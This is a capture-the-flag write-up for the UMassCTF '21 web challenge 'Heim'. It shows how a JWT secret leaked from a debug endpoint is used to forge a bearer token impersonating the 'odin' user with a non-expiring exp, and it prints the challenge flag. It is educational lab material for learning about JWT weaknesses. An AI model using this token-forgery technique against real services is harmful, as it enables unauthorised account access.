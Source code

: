 ```yaml
---
layout: post
title: Heim - UMassCTF '21
date: 2021-03-29T01:30:00
authors:
- samiko
categories:
- ctf
- write-ups
header_img: ''

---
```

_Only those who BEARER a token may enter! A web exploitation category challenge on intercepting and forging JSON Web Token from a debugging endpoint to bypass authentication._

## The Heim

Upon navigating to the given URL, we're met with a login form which asks the user for a "name", claiming that "only those who BEARER a token may enter".

![https://i.imgur.com/96m81yH.png](https://i.imgur.com/96m81yH.png)

After entering a name and hitting "Enter", we are then redirected to the `/auth/authorised` page containing our access token:

![https://i.imgur.com/s2PtrcI.png](https://i.imgur.com/s2PtrcI.png)

This likely suggests that we're dealing with some type of bearer token authentication. Bearer tokens allow requests to authenticate by using a cryptic string generated and encrypted by the server, such as a JSON Web Token, which looks something akin to this:

![https://i.imgur.com/IVE3srk.png](https://i.imgur.com/IVE3srk.png)

This token is then included in the HTTP header, in the format of:

```html
Authorization: Bearer <JWT>
```

## Intercepting requests with Burp Suite

Let's intercept the outbound POST request made to `/auth` with Burp Suite's proxy feature, and forward the request to the repeater with `Ctrl-R` to try and figure out what is happening behind the scenes:

![https://i.imgur.com/EZ3LsiC.png](https://i.imgur.com/EZ3LsiC.png)

We see that the browser first makes a POST request to `/auth` with the form data, and is then redirected to the URL:

`/auth?access_token=<JWT>&jwt_secret_key=arottenbranchwillbefoundineverytree`

Leaked at the end of the redirect URL is the `jwt_secret_key`, which is used for encrypting JSON Web Tokens:

`arottenbranchwillbefoundineverytree`

While looking for more API endpoints on the website by trying related keywords, we stumbled upon `/heim`, which returned:

```json
{
  "msg": "Missing Authorization Header"
}
```

This means that the web server is expecting a Bearer token in the HTTP header, so let's add that to our request in Burp Suite's repeater:

![https://i.imgur.com/HR6kSKQ.png](https://i.imgur.com/HR6kSKQ.png)

We received a massive message encoded in base64, let's decode it:

`$ echo "ewogICAgIm...AgIH0KfQ==" | base64 -d`

```json
{
  "api": {
      "v1": {
          "/auth": {
              "get": {
                  "summary": "Debugging method for authorization post",
                  "security": "None",
                  "parameters": {
                      "access_token": {
                          "required": true,
                          "description": "Access token from recently authorized Viking",
                          "in": "path",
                      },
                      "jwt_secret_key": {
                          "required": false,
                          "description": "Debugging - should be removed in prod Heim",
                          "in": "path"
                      }
                  }
              },
              "post": {
                  "summary": "Authorize yourself as a Viking",
                  "security": "None",
                  "parameters": {
                      "username": {
                          "required": true,
                          "description": "Your Viking name",
                          "in": "body",
                          "content": "multipart/x-www-form-urlencoded"
                      }
                  }
              }
          },
          "/heim": {
              "get": {
                  "summary": "List the endpoints available to named Vikings",
                  "security": "BearerAuth"
              }
          },
          "/flag": {
              "get": {
                  "summary": "Retrieve the flag",
                  "security": "BearerAuth"
              }
          }
      }
  }
}
```

Nice! We have obtained a list of all available endpoints and now know the flag is located at `/flag`, and that the GET method for `/auth` was originally meant to be a debugging endpoint, explaining why `jwt_secret_key` was leaked in the redirect URL.

Making a GET request to `/flag` with our Bearer token returns:

```json
{
  "msg": "You are not worthy. Only the AllFather Odin may view the flag"
}
```

Seems like only Odin is worthy enough to view the flag! Also, trying to submit "odin" as the name in the login form returns:

```json
{
  "error": "You are not wise enough to be Odin"
}
```

Though, since we can obtain a sample access token and are in possession of the secret key, we can forge our own tokens to authenticate as the Odin user.

## Forging Odin's token

Using [CyberChef](https://gchq.github.io/CyberChef/) tool, we can easily read the payload of our own JWT string with the "JWT decode" function:

![https://i.imgur.com/gRvcmbl.png](https://i.imgur.com/gRvcmbl.png)

We see that the JWT payload contains the following data:

```json
{
    "fresh": false,
    "iat": 1617017482,
    "jti": "380b9f5c-fb31-479e-a189-59e2c8040453",
    "nbf": 1617017482,
    "type": "access",
    "sub": "samiko",
    "exp": 1617018382
}
```

Of all variables, `sub` (subject) and `exp` (expiration time) are the ones that appear most interesting to us, since we want to forge a token for Odin (that never expires!), so let's modify the payload to the following:

```json
{
    "fresh": false,
    "iat": 1617017482,
    "jti": "380b9f5c-fb31-479e-a189-59e2c8040453",
    "nbf": 1617017482,
    "type": "access",
    "sub": "odin",
    "exp": 9999999999
}
```

Using the "JWT Sign" function with the leaked `jwt_secret_key` and HS256 as parameters, we get the token:

![https://i.imgur.com/AEjoHH4.png](https://i.imgur.com/AEjoHH4.png)

Using the forged token in the HTTP header as a Bearer token, we make a GET request to `/flag`:

![https://i.imgur.com/Tq2jaX7.png](https://i.imgur.com/Tq2jaX7.png)

Voila! We got the flag:

```json
UMASS{liveheim_laughheim_loveheim}
```

## Resources

1. [https://swagger.io/docs/specification/authentication/bearer-authentication/](https://swagger.io/docs/specification/authentication/bearer-authentication/)
2. [https://research.securitum.com/jwt-json-web-token-security/](https://research.securitum.com/jwt-json-web-token-security/)
3. [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)